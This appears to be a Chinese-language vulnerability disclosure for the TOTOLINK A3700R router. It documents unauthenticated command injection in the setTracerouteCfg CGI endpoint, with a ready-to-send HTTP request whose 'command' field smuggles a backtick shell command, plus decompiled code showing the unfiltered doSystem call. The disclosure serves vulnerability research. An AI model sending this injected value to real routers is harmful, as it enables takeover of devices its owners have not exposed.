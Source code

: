 # TOTOLINK A3700R_FirmwareV9.1.2u.6134_B20201202存在未授权任意命令注入执行

## **产品信息**

设备：TOTOlink A3700R 固件版本：V9.1.2u.6134_B20201202

制造商网站信息：https://www.totolink.net/ 

固件下载地址：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/207/ids/36.html

## **漏洞描述**

cstecgi.cgi的setTracerouteCfg接口存在未授权任意命令执行

**POC**

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.187.135
Content-Length: 80
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.187.135
Referer: http://192.168.187.135/advance/traceroute.html?time=1699627755838
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1699627746:2
Connection: close



{"command":"127.0.0.1`ls>/www/zxs.txt`","num":"4","topicurl":"setTracerouteCfg"}
```

![image-20231110231139369](https://raw.githubusercontent.com/zxsssd/testimages/main/image-20231110231139369.png)

```
GET /aaa.txt HTTP/1.1
Host: 192.168.187.135
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1699627746:2
Connection: close
```

![image-20231110231618736](https://raw.githubusercontent.com/zxsssd/testimages/main/image-20231110231618736.png)

**分析**

根据抓包，对参数进行搜索

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.187.135
Content-Length: 63
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.187.135
Referer: http://192.168.187.135/advance/traceroute.html?time=1699627755838
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1699627746:2
Connection: close


{"command":"127.0.0.1","num":"4","topicurl":"setTracerouteCfg"}
```

找到command，发现只有一个

![image-20231110225723245](https://raw.githubusercontent.com/zxsssd/testimages/main/image-20231110225723245.png)

在漏洞cgi处的sub_422504，如下，存在未授权任意命令注入执行漏洞

```
int __fastcall sub_422504(int a1)
{
  const char *Var; // $s2
  int v3; // $v0
  int v4; // $v0
  char v6[128]; // [sp+18h] [-80h] BYREF

  memset(v6, 0, sizeof(v6));
  Var = (const char *)websGetVar(a1, "command", "www.baidu.com");
  v3 = websGetVar(a1, "num", &byte_43AFC8);
  v4 = atoi(v3);
  sprintf(v6, "traceroute -m %d %s&>/var/log/traceRouteLog", v4, Var);
  doSystem(v6);
  setResponse(&word_43908C, "reserv");
  return 1;
}
```

字符串可控，dosystem的时候直接对拼接的v6进行执行没有任何过滤直接用反引号闭合就可以任意命令执行了。
